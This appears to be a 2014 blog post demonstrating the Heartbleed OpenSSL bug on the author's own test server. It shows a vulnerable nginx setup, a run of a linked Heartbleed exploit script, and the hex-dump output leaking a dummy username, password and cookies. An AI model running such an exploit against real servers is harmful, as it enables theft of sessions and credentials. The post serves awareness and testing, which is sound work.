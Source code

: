 ```yaml
---
title: Heartbleed
date: 2014-04-08
---
```


The [Heartbleed Bug](http://heartbleed.com/) is making waves. It's a vulnerability targeting apache and nginx web servers running specific versions of OpenSSL (`1.0.1` through `1.0.1f`) that allows arbitrary reading of server memory, which can expose user sessions, cookies, passwords, credit card info, etc. to the open web. This currently affects a large portion of the internet. Let's see how this vulnerability works.

First check what OpenSSL version is currently installed. 

```bash
$ openssl version -a
OpenSSL 1.0.1 14 Mar 2012
built on: Wed Jan  8 20:45:51 UTC 2014
platform: debian-amd64
options:  bn(64,64) rc4(16x,int) des(idx,cisc,16,int) blowfish(idx)
compiler: cc -fPIC -DOPENSSL_PIC -DZLIB -DOPENSSL_THREADS -D_REENTRANT -DDSO_DLFCN -DHAVE_DLFCN_H -m64 -DL_ENDIAN -DTERMIO -g -O2 -fstack-protector --param=ssp-buffer-size=4 -Wformat -Wformat-security -Werror=format-security -D_FORTIFY_SOURCE=2 -Wl,-Bsymbolic-functions -Wl,-z,relro -Wa,--noexecstack -Wall -DOPENSSL_NO_TLS1_2_CLIENT -DOPENSSL_MAX_TLS1_2_CIPHER_LENGTH=50 -DMD32_REG_T=int -DOPENSSL_IA32_SSE2 -DOPENSSL_BN_ASM_MONT -DOPENSSL_BN_ASM_MONT5 -DOPENSSL_BN_ASM_GF2m -DSHA1_ASM -DSHA256_ASM -DSHA512_ASM -DMD5_ASM -DAES_ASM -DVPAES_ASM -DBSAES_ASM -DWHIRLPOOL_ASM -DGHASH_ASM
OPENSSLDIR: "/usr/lib/ssl"
```

Turns out Ubuntu 12.04 comes with a vulnerable version. Next I installed nginx and self-signed my own cert:

```bash
$ sudo apt-get install nginx
$ sudo mkdir -p /etc/nginx/ssl/keys
$ cd /etc/nginx/ssl/keys
$ openssl genrsa -des3 -out self-ssl.key 1024
$ openssl req -new -key self-ssl.key -out self-ssl.csr
$ openssl x509 -req -days 365 -in self-ssl.csr -signkey self-ssl.key -out self-ssl.crt
```

Then I configured nginx:

```bash
$ sudo vim /etc/nginx/sites-enabled/default

server {
  listen 443;
  server_name heartbleed;

  root /usr/share/nginx/www;
  index index.html index.htm;

  ## SSL
  ssl on;
  ssl_certificate /etc/nginx/ssl/keys/self-ssl.crt;
  ssl_certificate_key /etc/nginx/ssl/keys/self-ssl.key;

  ## SSL caching/optimization
  ssl_protocols        SSLv3 TLSv1 TLSv1.1 TLSv1.2;
  ssl_ciphers RC4:HIGH:!aNULL:!MD5;
  ssl_prefer_server_ciphers on;
  keepalive_timeout    60;
  ssl_session_cache    shared:SSL:10m;
  ssl_session_timeout  10m;

  ## SSL log files
  access_log /var/log/nginx/heartbleed/ssl_access.log;
  error_log /var/log/nginx/heartbleed/ssl_error.log;

  location / {
    proxy_set_header        Accept-Encoding   "";
    proxy_set_header        Host              $http_host;
    proxy_set_header        X-Forwarded-By    $server_addr:$server_port;
    proxy_set_header        X-Forwarded-For   $remote_addr;
    proxy_set_header        X-Forwarded-Proto $scheme;
    proxy_set_header        X-Real-IP         $remote_addr;
    proxy_next_upstream error timeout invalid_header http_500 http_502 http_503 http_504;
  }
}
```

I made a dummy html page with a form for submitting a username/password. I also added a bit of javascript that set a cookie as well. 

```html
<form name="input" action="index.html" method="get">
  Username: <input type="text" name="username"> <br />
  Password: <input type="password" name="password"> <br />
  <input type="submit" value="Submit">
</form>

<script>
  document.cookie="heartbleed='Hi friends!'";
</script>
```

Then I ran [this script](https://gist.github.com/l1fescape/10159084) (the one mentioned in [this article](https://www.mattslifebytes.com/?p=533)) against myself. 

The dump had the most recent request in it including all cookies:

```
❯ python hb-test.py heartbleed.akenn.org

Connecting...
Sending Client Hello...
Waiting for Server Hello...
 ... received message: type = 22, ver = 0302, length = 66
 ... received message: type = 22, ver = 0302, length = 549
 ... received message: type = 22, ver = 0302, length = 203
 ... received message: type = 22, ver = 0302, length = 4
Sending heartbeat request...
 ... received message: type = 24, ver = 0302, length = 16384
Received heartbeat response:
  0000: 02 40 00 D8 03 02 53 43 5B 90 9D 9B 72 0B BC 0C  .@....SC[...r...
  0010: BC 2B 92 A8 48 97 CF BD 39 04 CC 16 0A 85 03 90  .+..H...9.......
  0020: 9F 77 04 33 D4 DE 00 00 66 C0 14 C0 0A C0 22 C0  .w.3....f.....".
  0030: 21 00 39 00 38 00 88 00 87 C0 0F C0 05 00 35 00  !.9.8.........5.
  0040: 84 C0 12 C0 08 C0 1C C0 1B 00 16 00 13 C0 0D C0  ................
  0050: 03 00 0A C0 13 C0 09 C0 1F C0 1E 00 33 00 32 00  ............3.2.
  0060: 9A 00 99 00 45 00 44 C0 0E C0 04 00 2F 00 96 00  ....E.D...../...
  0070: 41 C0 11 C0 07 C0 0C C0 02 00 05 00 04 00 15 00  A...............
  0080: 12 00 09 00 14 00 11 00 08 00 06 00 03 00 FF 01  ................
  0090: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
  00a0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
  00b0: 0A 00 16 00 17 00 08 00 06 00 07 00 14 00 15 00  ................
  00c0: 04 00 05 00 12 00 13 00 01 00 02 00 03 00 0F 00  ................
  00d0: 10 00 11 00 23 00 00 00 0F 00 01 01 12 00 10 04  ....#...........
  00e0: 01 05 01 02 01 04 03 05 03 02 03 04 02 02 02 00  ................
  00f0: 12 00 00 5F 39 5F 32 29 20 41 70 70 6C 65 57 65  ..._9_2) AppleWe
  0100: 62 4B 69 74 2F 35 33 37 2E 33 36 20 28 4B 48 54  bKit/537.36 (KHT
  0110: 4D 4C 2C 20 6C 69 6B 65 20 47 65 63 6B 6F 29 20  ML, like Gecko) 
  0120: 43 68 72 6F 6D 65 2F 33 33 2E 30 2E 31 37 35 30  Chrome/33.0.1750
  0130: 2E 31 35 32 20 53 61 66 61 72 69 2F 35 33 37 2E  .152 Safari/537.
  0140: 33 36 0D 0A 52 65 66 65 72 65 72 3A 20 68 74 74  36..Referer: htt
  0150: 70 73 3A 2F 2F 68 65 61 72 74 62 6C 65 65 64 2E  ps://heartbleed.
  0160: 61 6B 65 6E 6E 2E 6F 72 67 2F 69 6E 64 65 78 2E  akenn.org/index.
  0170: 68 74 6D 6C 3F 75 73 65 72 6E 61 6D 65 3D 74 65  html?username=te
  0180: 73 74 26 70 61 73 73 77 6F 72 64 3D 61 64 73 66  st&password=adsf
  0190: 0D 0A 41 63 63 65 70 74 2D 45 6E 63 6F 64 69 6E  ..Accept-Encodin
  01a0: 67 3A 20 67 7A 69 70 2C 64 65 66 6C 61 74 65 2C  g: gzip,deflate,
  01b0: 73 64 63 68 0D 0A 41 63 63 65 70 74 2D 4C 61 6E  sdch..Accept-Lan
  01c0: 67 75 61 67 65 3A 20 65 6E 2D 55 53 2C 65 6E 3B  guage: en-US,en;
  01d0: 71 3D 30 2E 38 0D 0A 43 6F 6F 6B 69 65 3A 20 75  q=0.8..Cookie: u
  01e0: 73 65 72 6E 61 6D 65 3D 4A 6F 68 6E 20 44 6F 65  sername=John Doe
  01f0: 3B 20 68 65 61 72 74 62 6C 65 65 64 3D 27 48 69  ; heartbleed='Hi
  0200: 20 66 72 69 65 6E 64 73 21 27 0D 0A 0D 0A 1E 25   friends!'.....%
  0210: 49 D9 60 31 25 9C EA 14 2A 2F E4 86 82 B1 56 0A  I.`1%...*/....V.
  0220: 53 16 CB D3 B6 C4 00 00 00 00 00 00 00 00 00 00  S...............
  0230: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
  0240: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
  0250: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
  0260: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................

.....

WARNING: server returned more data than it should - server is vulnerable!
```

As you can see, my most recent request (a `GET` request to the same url with username and password as params) has the cookies I passed along in the request in there. Now imagine doing that to a much larger site and getting someone's sessionID or some equivalent.

This is a really, really scary bug. Make sure your version of OpenSSL is patched!

Relevant links:

- http://heartbleed.com
- http://arstechnica.com/security/2014/04/critical-crypto-bug-exposes-yahoo-mail-passwords-russian-roulette-style
- http://coderinaworldofcode.blogspot.com/2014/04/my-heart-bleeds-for-openssl.html